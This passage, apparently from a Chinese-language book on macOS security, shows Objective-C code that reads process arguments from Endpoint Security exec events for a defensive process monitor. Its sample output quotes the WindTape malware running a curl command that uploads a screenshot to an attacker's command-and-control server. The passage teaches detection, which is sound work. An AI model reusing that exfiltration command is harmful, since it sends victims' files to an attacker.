 通过 Endpoint Security 提供的这些代码签名信息，我们接近完成进程监控逻辑的实现。

##### 参数

让我们从消息特定内容开始，首先是 ES_EVENT_TYPE_NOTIFY_EXEC 消息中的进程参数。在第一章中，我讨论了进程参数在检测恶意代码中的重要性，并通过编程提取了正在运行的进程的参数。如果你订阅了类型为 ES_EVENT_TYPE_NOTIFY_EXEC 的 Endpoint Security 事件，你会看到 Endpoint Security 已经为你完成了大部分繁重的工作。

这些事件是 es_event_exec_t 结构体，你可以将其传递给两个 Endpoint Security 辅助 API，es_exec_arg_count 和 es_exec_arg，以提取触发 Endpoint Security 事件的参数（列表 8-20）。

```
NSMutableArray* arguments = [NSMutableArray array];

const es_event_exec_t* exec = &message->event.exec;

❶ for(uint32_t i = 0; i < es_exec_arg_count(exec); i++) {
  ❷ es_string_token_t token = es_exec_arg(exec, i);
  ❸ NSString* argument = [[NSString alloc] initWithBytes:token.data
    length:token.length encoding:NSUTF8StringEncoding];

  ❹ [arguments addObject:argument];
} 
```

列表 8-20：提取进程的参数

在初始化一个数组来存储参数后，代码调用 es_exec_arg_count 来确定参数的数量❶。我们在 for 循环的初始化中进行此检查，以跟踪我们调用 es_exec_arg 函数的次数。然后，我们使用当前索引调用该函数，以获取该索引位置的参数❷。由于该参数存储在 es_string_token_t 结构中，代码将其转换为字符串对象❸，并将其添加到数组中❹。

当我们将这段代码添加到 *ESPlayground* 项目时，我们现在可以观察到进程参数，例如，当 WindTape 恶意软件执行 curl 命令将录制的屏幕截图传输到攻击者的指挥与控制服务器时：

```
# **ESPlayground.app/Contents/MacOS/ESPlayground -monitor**

ES Playground
Executing (process) 'monitor' logic

event: ES_EVENT_TYPE_NOTIFY_EXEC
(new) process
 pid: 18802
 path: /usr/bin/curl
 ...
 arguments : (
  "/usr/bin/curl"
  "http://string2me.com/xnrftGrNZlVYWrkrqSoGzvKgUGpN/zgrcJOQKgrpkMLZcu.php",
  "-F",
  "qwe=@/Users/User/Library/lsd.app/Contents/Resources/14-06 06:28:07.jpg",
  "-F",
  "rest=BBA441FE-7BBB-43C6-9178-851218CFD268",
  "-F",
  "fsbd=Users-Mac.local-User"
) 
```

你可以使用类似的函数 es_exec_env_count 和 es_exec_env 从 es_event_exec_t 结构中提取进程的环境变量。
